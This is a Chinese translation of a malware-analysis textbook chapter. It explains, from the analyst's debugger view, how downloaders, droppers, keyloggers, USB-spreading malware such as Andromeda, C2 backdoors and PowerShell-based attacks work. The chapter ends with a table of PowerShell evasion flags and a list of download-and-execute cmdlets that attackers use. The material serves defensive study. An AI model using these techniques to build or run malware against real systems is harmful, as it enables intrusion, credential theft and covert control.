



# 第七章：恶意软件功能和持久性

恶意软件可以执行各种操作，它可能包含各种功能。 理解恶意软件的功能和行为至关重要，以便理解恶意二进制文件的性质和目的。 在过去的几章中，你学习了执行恶意软件分析所需的技能和工具。 在本章和接下来的几章中，我们将主要关注理解不同的恶意软件行为，它们的特征及其能力。

# 1\. 恶意软件功能

到目前为止，你应该已经了解恶意软件如何利用 API 函数与系统进行交互。 在本节中，你将了解恶意软件如何利用各种 API 函数实现特定功能。 有关在特定 API 上寻求帮助以及如何阅读 API 文档的信息，请参考第三部分，《Windows API 反汇编》，在第五章中，《使用 IDA 进行反汇编》。

# 1.1 下载器

在进行恶意软件分析时，你将遇到的最简单类型的恶意软件是*下载器*。 下载器是从互联网下载另一个恶意软件组件并在系统上执行的程序。 它通过调用`UrlDownloadToFile()` API 来完成文件下载到磁盘上。 下载完成后，它再使用`ShellExecute()`、`WinExec()`或`CreateProcess()` API 调用来执行下载的组件。 通常情况下，你会发现下载器被用作攻击载荷的一部分。

下面的截图显示了一个 32 位恶意软件下载器使用`UrlDownloadToFileA()`和`ShellExecuteA()`来下载和执行恶意二进制文件。 为了确定从哪个 URL 下载恶意二进制文件，设置了一个在调用`UrlDownloadToFileA()`时断点。 运行代码后，断点被触发，如下截图所示。 `UrlDownloadToFileA()`的第二个参数显示了恶意可执行文件（*wowreg32.exe*）将被下载的 URL，第三个参数指定了下载的可执行文件将保存在磁盘上的位置。 在这种情况下，下载器将下载的可执行文件保存在`%TEMP%`目录下，命名为`temp.exe`：


将恶意软件可执行文件下载到`%TEMP%`目录后，下载器通过调用`ShellExecuteA()` API 来执行它，如下截图所示。 或者，恶意软件也可能使用`WinExec()`或`CreateProcess()` API 来执行下载的文件：

在调试恶意二进制文件时，最好运行监控工具（如*Wireshark*）和仿真工具（如*InetSim*），以便观察恶意软件的行为并捕获其生成的流量。

# 1.2 植入器

*下拉程序*是一个将额外的恶意软件组件嵌入自身的程序。当执行时，下拉程序提取恶意软件组件并将其写入磁盘。下拉程序通常会将额外的二进制文件嵌入资源区。为了提取嵌入的可执行文件，下拉程序使用`FindResource()`、`LoadResource()`、`LockResource()`和`SizeOfResource()` API 调用。在下图中，R*esource Hacker 工具（*在第二章中介绍* 第二章，*静态分析)*显示恶意软件样本的资源部分包含一个 PE 文件。在这种情况下，资源类型是 DLL：


在 x64dbg 中加载恶意二进制文件，并查看对 API 调用的引用（*在上一章中介绍*），显示了与资源相关的 API 调用引用。这表明恶意软件正在从资源部分提取内容。此时，你可以在调用`FindResourceA()` API 的地址设置断点，如下所示：


在下图中，运行程序后，执行在`FindResourceA()` API 处暂停，原因是之前步骤中设置了断点。传递给`FindResourceA()` API 的第二个和第三个参数告诉你恶意软件正在尝试查找`DLL/101`资源，如下所示：


执行完`FindResourceA()`后，它的返回值（存储在`EAX`中），即指定资源信息块的句柄，将作为第二个参数传递给`LoadResource()` API。`LoadResource()`检索与资源相关的数据句柄。`LoadResource()`的返回值（包含检索到的句柄）然后作为参数传递给`LockResource()` API，后者获取指向实际资源的指针。在下图中，执行在调用`LockResource()`后立即暂停。检查转储窗口中存储在`EAX`中的返回值，显示从资源部分检索到的 PE 可执行内容：


一旦检索到资源，恶意软件通过`SizeOfResource()` API 确定资源（PE 文件）的大小。接下来，恶意软件使用`CreateFileA`将 DLL 写入磁盘，如下所示：


然后，通过`WriteFile()` API 将提取的 PE 内容写入 DLL。在下图中，第一个参数`0x5c`是 DLL 的句柄，第二个参数`0x00404060`是检索到的资源地址（PE 文件），第三个参数`0x1c00`是资源的大小，该大小是通过调用`SizeOfResource()`确定的：


# 1.2.1 反向分析 64 位下拉程序

以下是一个 64 位恶意软件投放工具（称为 *黑客之门*）的示例。如果你还不熟悉调试 64 位样本，请参阅上一章的 *2.7 节，调试 64 位恶意软件*。该恶意软件使用相同的 API 函数集来查找并提取资源；不同之处在于，前几个参数被放置在寄存器中，而不是压入堆栈（因为它是 64 位二进制）。恶意软件首先使用 `FindResourceW()` API 查找 `BIN/100` 资源，如下所示：


然后，恶意软件使用 `LoadResource()` 获取与该资源关联的数据句柄，接着使用 `LockResource()` 获取指向实际资源的指针。在以下截图中，检查 `LockResource()` API 的返回值 `(RAX)` 显示提取的资源。在这种情况下，64 位恶意软件投放工具从其资源部分提取 DLL，并随后将 DLL 投放到磁盘上：


# 1.3 键盘记录器

*键盘记录器* 是一种旨在拦截和记录按键的程序。攻击者在其恶意程序中使用键盘记录功能，窃取通过键盘输入的机密信息（如用户名、密码、信用卡信息等）。在本节中，我们将主要关注用户模式的软件键盘记录器。攻击者可以使用多种技术来记录按键。记录按键的最常见方法是使用文档化的 Windows API 函数：*(a) 检查键状态*（使用 `GetAsyncKeyState()` API）和 *(b) 安装钩子*（使用 `SetWindowHookEX()` API）。

# 1.3.1 使用 GetAsyncKeyState() 的键盘记录器

该技术涉及查询键盘上每个键的状态。为了实现这一点，键盘记录器利用`GetAsyncKeyState()` API 函数来确定某个键是*按下*还是*未按下*。通过 `GetAsyncKeyState()` 的返回值，可以确定在调用该函数时键是否被按下，以及该键是否在之前调用 `GetAsyncKeyState()` 后被按下。以下是 `GetAsyncKeyState()` API 的函数原型：

```
SHORT GetAsyncKeyState(int vKey);
```

`GetAsyncKeyState()` 接受一个整数参数 `vKey`，该参数指定一个 `256` 个可能的*虚拟键码*之一。为了确定键盘上单个键的状态，可以通过将与所需键关联的虚拟键码作为参数来调用 `GetAsyncKeyState()` API。为了确定键盘上所有键的状态，键盘记录器不断循环调用 `GetAsyncKeyState()` API（每次传递一个虚拟键码作为参数），以确定哪个键被按下。

你可以在 MSDN 网站上找到与虚拟键码相关的符号常量名称（[`msdn.microsoft.com/en-us/library/windows/desktop/dd375731(v=vs.85).aspx`](https://msdn.microsoft.com/en-us/library/windows/desktop/dd375731(v=vs.85).aspx)）。

以下截图显示了键盘记录器的代码片段。键盘记录器通过在地址`0x401441`调用`GetKeyState()` API 来确定*Shift*键的状态（是按下还是释放）。在地址`0x401459`，键盘记录器调用`GetAsyncKeyState()`，这是一个循环的一部分，在每次循环中，虚拟键码（从键码数组中读取）作为参数传递，用于确定每个按键的状态。在地址`0x401463`，对`GetAsyncKeyState()`的返回值执行`test`操作（与`AND`操作相同），以确定*最高有效位*是否被设置。如果最高有效位被设置，则表示按键被按下。如果某个特定按键被按下，则键盘记录器会在地址`0x40146c`调用`GetKeyState()`来检查*Caps Lock*键的状态（检查它是否被打开）。通过这种技术，恶意软件可以确定在键盘上输入的是大写字母、小写字母、数字还是特殊字符：


以下截图显示了循环的结束。从代码中可以看出，恶意软件遍历了`0x5c (92)`键码。换句话说，它监控了`92`个按键。在这种情况下，`var_4`充当*键码数组*的*索引*，用于检查键码，并在循环结束时递增，只要`var_4`的值小于`0x5c(92)`，循环将继续：


# 1.3.2 使用 SetWindowsHookEx() 的键盘记录器

另一种常见的键盘记录器技术是它安装一个函数（称为*钩子过程*）来监控键盘事件（例如*按键*）。在这种方法中，恶意程序注册一个函数（*钩子过程*），当键盘事件被触发时，该函数会收到通知，并可以将按键信息记录到文件中或通过网络发送。恶意程序使用`SetWindowsHookEx()` API 来指定要监控的事件类型（例如键盘、鼠标等）和当特定类型事件发生时应通知的钩子过程。*钩子过程*可以包含在一个 DLL 或当前模块中。在以下截图中，恶意软件样本通过调用`SetWindowsHookEx()`并使用`WH_KEYBOARD_LL`参数来注册一个用于低级键盘事件的钩子过程（恶意软件也可能使用`WH_KEYBOARD`）。第二个参数`offset hook_proc`是*钩子过程的地址*。当键盘事件发生时，这个函数将会收到通知。检查这个函数可以帮助了解键盘记录器是如何以及在哪里记录按键信息的。第三个参数是包含钩子过程的模块（例如 DLL 或当前模块）的*句柄*。第四个参数`0`指定钩子过程将与同一桌面中的所有现有线程相关联：


# 1.4 通过可移动媒体复制恶意软件

攻击者可以通过感染可移动介质（如 USB 驱动器）来传播其恶意程序。攻击者可以利用*自动运行*功能（或利用*自动运行*中的漏洞）来自动感染其他系统，当感染的介质插入到该系统时。这种技术通常涉及将文件复制或修改存储在可移动介质上的现有文件。一旦恶意软件将恶意文件复制到可移动介质，它可以使用各种技巧让该文件看起来像一个合法的文件，从而欺骗用户在将 USB 插入另一个系统时执行该文件。感染可移动介质的技术使攻击者能够在断开连接或空中隔离的网络中传播其恶意软件。

在以下示例中，恶意软件调用`GetLogicalDriveStringsA()`以获取计算机上有效驱动器的详细信息。在调用`GetLogicalDriveStringsA()`之后，可用驱动器的列表会存储在输出缓冲区`RootPathName`中，该缓冲区作为第二个参数传递给`GetLogicalDriveStringsA()`。下图显示了三个驱动器，`C:\`、`D:\`和`E:\`，在调用`GetLogicalDriveStringsA()`后，其中`E:\`是 USB 驱动器。一旦确定了驱动器列表，它就会遍历每个驱动器以确定它是否是可移动驱动器。它通过将`GetDriveTypeA()`的返回值与`DRIVE_REMOVABLE`（常量值`2`）进行比较来判断：


如果检测到可移动介质，恶意软件使用`CopyFileA()` API 将自身（可执行文件）复制到可移动介质（USB 驱动器）中。为了隐藏文件，恶意软件调用`SetFileAttributesA()` API，并将常量值`FILE_ATTRIBUTE_HIDDEN`传递给它：


在将恶意文件复制到可移动介质后，攻击者可以等待用户双击复制的文件，或者利用*自动运行*功能。Windows Vista 之前，恶意软件除了复制可执行文件外，还会将包含自动运行命令的`autorun.inf`文件复制到可移动介质中。这些自动运行命令允许攻击者在介质插入系统时自动启动程序（无需用户干预）。从 Windows Vista 开始，通过自动运行执行恶意二进制文件默认不可行，因此攻击者必须使用其他技术（例如修改注册表项）或利用某个漏洞，使恶意二进制文件能够自动执行。

一些恶意软件程序依赖于欺骗用户执行恶意二进制文件，而不是利用自动运行功能。*Andromeda* 就是这样一种恶意软件的例子。为了演示 Andromeda 使用的技巧，请考虑以下截图，展示了将 2 GB 的干净 USB 驱动器插入感染了 Andromeda 的系统之前的内容。USB 根目录包含一个名为`test.txt`的文件和一个名为`testdir`的文件夹：


一旦干净的 USB 驱动器插入到*Andromeda-*感染的计算机中，它会执行以下步骤来感染 USB 驱动器：

1.  它通过调用`GetLogicalDriveStrings()`来确定系统上所有驱动器的列表。

1.  恶意软件通过遍历每个驱动器，使用`GetDriveType()` API 判断是否有驱动器是可移动媒体。

1.  一旦找到可移动媒体，恶意软件调用`CreateDirectoryW()` API 创建一个文件夹（目录），并将扩展 ASCII 码`xA0 (á)`作为第一个参数（目录名）。这将在可移动媒体上创建一个名为`E:\á`的文件夹，由于使用了扩展 ASCII 码，该文件夹显示为没有名称。以下截图展示了`E:\á`目录的创建。从现在起，我将把这个恶意软件创建的目录称为*未命名目录（文件夹）*：


以下截图显示了未命名文件夹。这是之前步骤中创建的带有扩展 ASCII 码 xA0 的文件夹：


1.  然后通过调用`SetFileAttributesW()` API 将*未命名文件夹*的属性设置为隐藏，并将其设为受保护的操作系统文件夹。这会将文件夹隐藏在可移动媒体上：


1.  恶意软件从注册表中解密可执行内容。然后它在未命名文件夹中创建一个文件。创建的文件名遵循`<randomfilename>.1`的约定，并将 PE 可执行内容（恶意 DLL）写入该文件（使用`CreateFile()`和`WriteFile()` API）。结果，在未命名文件夹中创建了一个名为`<randomfilename>.1`的 DLL， 如下所示：


1.  恶意软件随后在*未命名文件夹*中创建一个`desktop.ini`文件，并写入图标信息，为未命名文件夹分配一个*自定义图标*。`desktop.ini`的内容如下所示：


以下截图显示了未命名文件夹的图标，该图标已更改为驱动器图标。此外，请注意*未命名文件夹*现在已被隐藏。换句话说，只有当*文件夹选项*配置为显示*隐藏*和*受保护的*操作系统文件时，这个文件夹才会可见：


1.  恶意软件随后调用`MoveFile()` API，将所有文件和文件夹（在此案例中为`test.txt`和`testdir`）从根目录移动到*未命名隐藏文件夹*。在复制用户的文件和文件夹后，USB 驱动器的根目录如下所示：


1.  恶意软件随后创建一个快捷方式链接，指向`rundll32.exe`，而传递给`rundll32.exe`的参数是`<randomfile>.1`文件（即之前在*无名文件夹*中丢失的 DLL 文件）。以下截图显示了快捷方式文件的外观，并展示了恶意 DLL 通过 rundll32.exe 加载的属性。换句话说，当双击该快捷方式文件时，恶意 DLL 会通过 rundll32.exe 加载，从而执行恶意代码：


使用上述操作，*Andromeda*玩了一个心理把戏。现在，让我们来了解当用户将感染了恶意软件的 USB 驱动器插入干净的系统时会发生什么。以下截图展示了感染 USB 驱动器的内容，呈现给正常用户（使用默认的文件夹选项）。请注意，*无名文件夹*对用户不可见，并且用户的文件/文件夹（在我们的例子中是`test.txt`和`testdir`）从根驱动器中消失。恶意软件正欺骗用户，让其相信快捷方式文件是一个*驱动器：*



当用户发现 USB 根目录中缺失所有重要文件和文件夹时，用户很可能会双击快捷方式文件（以为它是一个驱动器），以寻找丢失的文件。由于双击该快捷方式，`rundll32.exe`会从*无名隐藏文件夹*（用户不可见）加载恶意 DLL，从而感染系统。

# 1.5 恶意软件指令与控制（C2）

恶意软件指令与控制（也称为*C&C*或*C2*）指的是攻击者与被感染系统之间的通信方式，以及如何控制该系统。在感染系统后，大多数恶意软件与攻击者控制的服务器（C2 服务器）进行通信，目的是接收指令、下载附加组件或外泄信息。对手使用不同的技术和协议进行指令与控制。传统上，*互联网中继聊天（IRC）*曾是许多年的最常见 C2 渠道，但由于 IRC 在组织中不常使用，因此很容易检测到这种流量。如今，恶意软件进行 C2 通信时最常使用的协议是*HTTP/HTTPS*。使用 HTTP/HTTPS 使得攻击者能够绕过防火墙/基于网络的检测系统，并与合法的网络流量混合。恶意软件有时还会使用 P2P 等协议进行 C2 通信。一些恶意软件也使用 DNS 隧道（[`securelist.com/use-of-dns-tunneling-for-cc-communications/78203/`](https://securelist.com/use-of-dns-tunneling-for-cc-communications/78203/)）进行 C2 通信。

# 1.5.1 HTTP 指令与控制

在本节中，你将了解对手如何使用 HTTP 与恶意程序通信。以下是 APT1 组使用的恶意软件样本（*WEBC2-DIV*后门）的示例（[`www.fireeye.com/content/dam/fireeye-www/services/pdfs/mandiant-apt1-report.pdf`](https://www.fireeye.com/content/dam/fireeye-www/services/pdfs/mandiant-apt1-report.pdf)）。该恶意二进制文件利用`InternetOpen()`、`InternetOpenUrl()`和`InternetReadFile()` API 函数从攻击者控制的 C2 服务器获取网页。它期望网页包含特殊的 HTML 标签；然后，后门解密标签中的数据，并将其解释为命令。以下步骤描述了*WEB2-DIV*后门与 C2 通信以接收命令的方式：

1.  首先，恶意软件调用`InternetOpenA()` API 初始化互联网连接。第一个参数指定恶意软件将用于 HTTP 通信的*User-Agent*。该后门通过将感染系统的主机名（它通过调用`GetComputerName()` API 获得）与硬编码字符串连接来生成 User-Agent。每当你遇到二进制文件中使用的硬编码*User-Agent*字符串时，它可以作为一个很好的网络指示器：


1.  然后，它调用`InternetOpenUrlA()`连接到一个 URL。你可以通过检查第二个参数来确定它连接到的 URL 名称，如下所示：


1.  以下截图显示了调用`InternetOpenUrlA()`后生成的网络流量。在此阶段，恶意软件与 C2 服务器通信以读取 HTML 内容：


1.  然后，它使用`InternetReadFile()` API 调用获取网页内容。该函数的第二个参数指定接收数据的缓冲区指针。以下截图显示了调用`InternetReadFile()`后检索到的 HTML 内容：


1.  从检索到的 HTML 内容中，后门会查找特定内容，该内容位于*<div>* HTML 标签中。检查 div 标签内内容的代码如下所示。如果未找到所需内容，恶意软件不会做任何操作，只会定期检查内容：


具体来说，恶意软件期望内容被按特定格式包裹在`div`标签中，如下面代码所示。如果在检索到的 HTML 内容中找到以下格式，它会提取加密字符串`(KxAikuzeG:F6PXR3vFqffP:H)`，该字符串被包裹在`<div safe: 和 balance></div>`之间：

```
<div safe: KxAikuzeG:F6PXR3vFqffP:H balance></div>
```

1.  提取的加密字符串随后作为参数传递给*解密函数*，该函数使用自定义加密算法解密字符串。你将在第九章中了解更多关于恶意软件加密技术的内容，*恶意软件混淆技术*。下图显示了调用`解密函数`后的解密字符串。解密字符串后，后门会检查解密字符串的第一个字符是否为`J`。如果满足此条件，恶意软件会调用`sleep()`API，使程序进入指定时间的休眠状态。简而言之，解密字符串的第一个字符充当命令代码，指示后门执行休眠操作：


1.  如果解密字符串的第一个字符是`D`，则会检查第二个字符是否为`o`，如图所示。如果满足此条件，则从第三个字符开始提取 URL，并使用`UrlDownloadToFile()`从该 URL 下载可执行文件。然后，它通过`CreateProcess()`API 执行下载的文件。在这种情况下，前两个字符`Do`充当命令代码，指示后门下载并执行文件：

要查看*APT1 WEBC2-DIV*后门的完整分析，请查看作者的 Cysinfo 会议演讲和视频演示（[`cysinfo.com/8th-meetup-understanding-apt1-malware-techniques-using-malware-analysis-reverse-engineering/`](https://cysinfo.com/8th-meetup-understanding-apt1-malware-techniques-using-malware-analysis-reverse-engineering/)）。

恶意软件还可能使用诸如`InternetOpen()`、`InternetConnect()`、`HttpOpenRequest()`、`HttpSendRequest()`和`InternetReadFile()`等 API 通过 HTTP 进行通信。你可以在这里找到对某种恶意软件的分析与逆向工程：[`cysinfo.com/sx-2nd-meetup-reversing-and-decrypting-the-communications-of-apt-malware/`](https://cysinfo.com/sx-2nd-meetup-reversing-and-decrypting-the-communications-of-apt-malware/)。

除了使用 HTTP/HTTPS，攻击者还可能滥用*社交网络*（[`threatpost.com/attackers-moving-social-networks-command-and-control-071910/74225/`](https://threatpost.com/attackers-moving-social-networks-command-and-control-071910/74225/)）、*合法网站*如*Pastebin*（[`cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/`](https://cysinfo.com/uri-terror-attack-spear-phishing-emails-targeting-indian-embassies-and-indian-mea/)）、以及*云存储服务*如*Dropbox*（[`www.fireeye.com/blog/threat-research/2015/11/china-based-threat.html`](https://www.fireeye.com/blog/threat-research/2015/11/china-based-threat.html)）来进行恶意软件的命令与控制。这些技术使得监视和检测恶意通信变得困难，并允许攻击者绕过基于网络的安全控制。

# 1.5.2 自定义命令与控制

对手可能会使用自定义协议或通过非标准端口来隐藏他们的命令和控制流量。以下是一个恶意软件样本（*HEARTBEAT RAT*）的示例，其详细信息在白皮书中有所记录（[`www.trendmicro.it/media/wp/the-heartbeat-apt-campaign-whitepaper-en.pdf`](http://www.trendmicro.it/media/wp/the-heartbeat-apt-campaign-whitepaper-en.pdf)）。该恶意软件使用自定义协议（非 HTTP）在端口`80`上进行加密通信，并从 C2 服务器检索命令。它利用`Socket()`、`Connect()`、`Send()`和`Recv()` API 调用与 C2 进行通信并接收命令：

1.  首先，恶意软件调用`WSAStartup()` API 来初始化 Windows 套接字系统。然后，它调用`Socket()` API 来创建一个套接字，如下图所示。套接字 API 接受三个参数。第一个参数`AF_INET`指定地址族，即`IPV4`。第二个参数是套接字类型`(SOCK_STREAM)`，第三个参数`IPPROTO_TCP`指定正在使用的协议（此处为 TCP）：


1.  在建立与套接字的连接之前，恶意软件使用`GetHostByName()` API 解析 C2 域名的地址。这是有意义的，因为*远程地址*和*端口*需要提供给`Connect()` API，以便建立连接。`GetHostByName()`的返回值（`EAX`）是一个指向名为`hostent`的结构体的指针，该结构体包含了解析后的 IP 地址：


1.  它从`hostent`结构中读取解析后的 IP 地址，并将其传递给`inet_ntoa()` API，该 API 将 IP 地址转换为 ASCII 字符串，如`192.168.1.100`。然后调用`inet_addr()`，该函数将类似`192.168.1.100`的 IP 地址字符串转换为可以供`Connect()` API 使用的格式。然后调用`Connect()` API 来建立与套接字的连接：


1.  恶意软件随后收集*系统信息*，使用`XOR`加密算法对其进行加密（加密技术将在*第九章*中介绍），并使用`Send()` API 调用将其发送到 C2 服务器。`Send()` API 的第二个参数显示了将发送到 C2 服务器的加密内容：


以下截图显示了在调用`Send()` API 后捕获的加密网络流量：


1.  然后，恶意软件调用`CreateThread()`来启动一个新线程。`CreateThread`的第三个参数指定线程的起始地址（起始函数），因此在调用`CreateThread()`后，执行将从起始地址开始。在这种情况下，线程的起始地址是一个负责从 C2 读取内容的函数：


内容来自 C2，使用`Recv()` API 函数进行检索。`Recv()`的第二个参数是存储检索内容的缓冲区。然后，检索到的内容会被解密，接着，根据从 C2 接收到的命令，恶意软件执行相应的操作。要了解此恶意软件的所有功能以及它如何处理接收到的数据，请参阅作者的演示文稿和视频演示（[`cysinfo.com/session-11-part-2-dissecting-the-heartbeat-apt-rat-features/`](https://cysinfo.com/session-11-part-2-dissecting-the-heartbeat-apt-rat-features/)）。


# 1.6 基于 PowerShell 的执行

为了避开检测，恶意软件作者通常利用系统中已存在的工具（如*PowerShell*），这些工具可以帮助他们隐藏恶意活动。PowerShell 是基于.NET 框架的管理引擎。该引擎暴露了一系列命令，称为*cmdlets*。该引擎托管在应用程序和 Windows 操作系统中，默认情况下提供*命令行界面（交互式控制台）*和*GUI PowerShell ISE（集成脚本环境）*。

PowerShell 不是一种编程语言，但它允许你创建包含多个命令的有用脚本。你还可以打开*PowerShell 提示符*并执行单个命令。PowerShell 通常由系统管理员用于合法目的。然而，攻击者使用 PowerShell 执行恶意代码的情况在增加。攻击者使用 PowerShell 的主要原因是它可以访问所有主要的操作系统功能，并且几乎不留下痕迹，从而使检测更加困难。以下是攻击者如何在恶意软件攻击中利用 PowerShell 的概述：

+   在大多数情况下，PowerShell 在利用后用于下载其他组件。它通常通过电子邮件附件发送，附件中包含能够直接或间接执行 PowerShell 脚本的文件（如`.lnk`、`.wsf`、JavaScript、VBScript 或包含恶意宏的办公文档）。一旦攻击者诱使用户打开恶意附件，恶意代码便直接或间接调用 PowerShell 来下载其他组件。

+   它还用于横向移动，攻击者在远程计算机上执行代码，以便在网络内传播。

+   攻击者使用 PowerShell 动态加载并执行代码，直接从内存中执行，而不访问文件系统。这使得攻击者能够保持隐秘，并使取证分析变得更加困难。

+   攻击者使用 PowerShell 执行其混淆的代码，这使得传统安全工具很难检测到它。

如果你是 PowerShell 新手，你可以通过以下链接找到许多入门教程，帮助你开始使用 PowerShell：[`social.technet.microsoft.com/wiki/contents/articles/4307.powershell-for-beginners.aspx`](https://social.technet.microsoft.com/wiki/contents/articles/4307.powershell-for-beginners.aspx)

# 1.6.1 PowerShell 命令基础

在深入了解恶意软件如何利用 PowerShell 之前，先了解如何执行 PowerShell 命令。你可以使用交互式 PowerShell 控制台执行 PowerShell 命令；可以通过 Windows 程序搜索功能启动它，或者在命令提示符下输入 `powershell.exe`。进入交互式 PowerShell 后，你可以输入命令并执行它。在以下示例中，`Write-Host` cmdlet 将消息写入控制台。*cmdlet*（如 `Write-Host`）是用 .NET Framework 语言编写的已编译命令，旨在小巧并完成单一功能。*cmdlet* 遵循标准的 *动词-名词* 命名约定：

```
PS C:\> Write-Host "Hello world"
Hello world
```

cmdlet 可以接受参数。参数以破折号开头，后跟参数名称和一个空格，再后跟参数值。在以下示例中，`Get-Process` cmdlet 用于显示关于 explorer 进程的信息。`Get-Process` cmdlet 接受一个名为 `Name` 的参数，值为 `explorer`：

```
PS C:\> Get-Process -Name explorer
Handles NPM(K) PM(K)  WS(K)  VM(M)  CPU(s) Id  ProcessName
------- ------ -----  -----  ----- ------  --  -----------
1613       86  36868  77380  ...35  10.00  3036 explorer
```

或者，你也可以使用参数快捷方式来减少输入；上面的命令也可以写成：

```
PS C:\> Get-Process -n explorer
Handles NPM(K) PM(K) WS(K)  VM(M)  CPU(s) Id  ProcessName
------- ------ ----- -----  -----  -----  --  -----------
1629       87 36664  78504  ...40  10.14  3036 explorer
```

要获取有关 cmdlet（如语法和参数的详细信息）的更多信息，你可以使用 `Get-Help` cmdlet 或 `help` 命令。如果你希望获取最新的信息，可以通过以下命令在线获取帮助：

```
PS C:\> Get-Help Get-Process
PS C:\> help Get-Process -online
```

在 PowerShell 中，变量可以用来存储值。在以下示例中，`hello` 是一个以 `$` 符号为前缀的变量：

```
PS C:\> $hello = "Hello World"
PS C:\> Write-Host $hello
Hello World
```

变量也可以存储 PowerShell 命令的结果，然后可以在命令的地方使用该变量，如下所示：

```
PS C:\> $processes = Get-Process
PS C:\> $processes | where-object {$_.ProcessName -eq 'explorer'}
Handles NPM(K) PM(K) WS(K) VM(M) CPU(s) Id  ProcessName
------- ------ ----- ----- ----- ------ --  -----------
1623        87 36708 78324 ...36 10.38  3036 explorer
```

# 1.6.2 PowerShell 脚本与执行策略

PowerShell 的功能使你能够通过组合多个命令来创建脚本。PowerShell 脚本的扩展名为 `.ps1`*.* 默认情况下，你将无法执行 PowerShell 脚本。这是因为 PowerShell 中的默认 *执行策略* 设置阻止了 PowerShell 脚本的执行。执行策略决定了在何种条件下可以执行 PowerShell 脚本。默认情况下，执行策略设置为 *"Restricted"*，这意味着无法执行 PowerShell 脚本（.ps1 文件），但仍然可以执行单个命令。例如，当 `Write-Host` `"Hello World"` 命令保存为 PowerShell 脚本 *(hello.ps1)* 并执行时，你会看到以下消息，说明脚本执行被禁用。这是由于执行策略设置的原因：

```
PS C:\> .\hello.ps1
.\hello.ps1 : File C:\hello.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\hello.ps1
+ ~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess
```

执行策略不是一个安全功能；它只是一个控制措施，用来防止用户不小心执行脚本。要显示当前的执行策略设置，可以使用以下命令：

```
PS C:\> Get-ExecutionPolicy
Restricted
```

你可以使用 `Set-ExecutionPolicy` 命令更改执行策略设置（前提是你以管理员身份执行命令）。在以下示例中，执行策略被设置为 `Bypass`，这允许脚本在没有任何限制的情况下运行。如果你遇到恶意 PowerShell 脚本，并且希望执行它以确定其行为，这个设置可能对你的分析很有帮助：

```
PS C:\> Set-ExecutionPolicy Bypass
PS C:\> .\hello.ps1
Hello World
```

# 1.6.2 分析 PowerShell 命令/脚本

相比于汇编代码，PowerShell 命令比较容易理解，但在某些情况下（比如 PowerShell 命令被混淆时），你可能想要运行这些 PowerShell 命令以理解它是如何工作的。测试单个命令的最简单方法是通过交互式 PowerShell 执行它。如果你希望执行一个包含多个命令的 PowerShell 脚本（`.ps1`），首先将执行策略设置更改为 *Bypass* 或 *Unrestricted*（如前所述），然后通过 PowerShell 控制台执行脚本。记住，要在隔离的环境中执行恶意脚本。

在 PowerShell 提示符下运行脚本（`.ps1`）会一次性执行所有命令。如果你希望对执行过程进行控制，那么可以使用 *PowerShell ISE（集成脚本环境）* 调试 PowerShell 脚本。你可以通过程序搜索功能打开 PowerShell ISE，然后将 PowerShell 脚本加载到 PowerShell ISE 中，或复制粘贴一个命令并使用其调试功能（如 *逐步进入*、*逐步跳过*、*逐步跳出* 和 *断点*），这些功能可以通过调试菜单访问。在调试之前，确保将执行策略设置为 *Bypass*：


# 1.6.3 攻击者如何使用 PowerShell

通过了解基础的 PowerShell 知识以及分析所需的工具，我们现在来看攻击者如何使用 PowerShell。由于在 PowerShell 控制台或双击运行 PowerShell 脚本（`.ps1`）时受到限制（会在记事本中打开，而不是执行脚本），因此攻击者不太可能直接将 PowerShell 脚本发送给受害者。攻击者必须首先欺骗用户执行恶意代码，这通常通过发送包含 `.lnk`、`.wsf`、JavaScript 或恶意宏文档等文件的电子邮件附件来实现。一旦用户被诱骗打开这些附件文件，恶意代码便可以直接调用 PowerShell（`powershell.exe`），或者通过 `cmd.exe`、`Wscript`、`Cscript` 等间接调用。一旦调用了 PowerShell，可以使用多种方法绕过执行策略。例如，攻击者可以使用恶意代码调用 `powershell.exe` 并传递 `Bypass` 执行策略标志，如下图所示。这种技术即使在用户不是管理员的情况下也能工作，它会覆盖默认的执行限制策略并执行脚本：


同样，攻击者还使用各种 PowerShell 命令行参数绕过执行策略。下表列出了最常用的 PowerShell 参数，用于规避检测和绕过本地限制：

| **命令行参数** | **描述** |
| --- | --- |
| 执行策略绕过 (`-Exec bypass`) | 忽略执行策略限制并在没有警告的情况下运行脚本 |
| 窗口样式隐藏 (`-W Hidden`) | 隐藏 PowerShell 窗口 |
| 无配置文件 (`-NoP`) | 忽略配置文件中的命令 |
| 编码命令 (`-Enc`) | 执行编码为 Base64 的命令 |
| 非交互模式 (`-NonI`) | 不向用户显示交互提示 |
| 命令 (`-C`) | 执行单个命令 |
| 文件 (`-F`) | 从指定文件执行命令 |

除了使用 PowerShell 命令行参数外，攻击者还会在 PowerShell 脚本中利用 cmdlet 或 .NET API。以下是最常用的命令和函数：

+   `Invoke-Expression (IEX)`: 该 cmdlet 评估或执行指定的字符串作为命令

+   `Invoke-Command`: 该 cmdlet 可以在本地或远程计算机上执行 PowerShell 命令

+   `Start-Process`: 该 cmdlet 从给定的文件路径启动一个进程

+   `DownloadString`: 该方法来自 `System.Net.WebClient`（WebClient 类），用于将资源从 URL 下载为字符串

+   `DownloadFile()`: 该方法来自`System.Net.WebClient`（WebClient 类），用于将资源从 URL 下载到本地文件

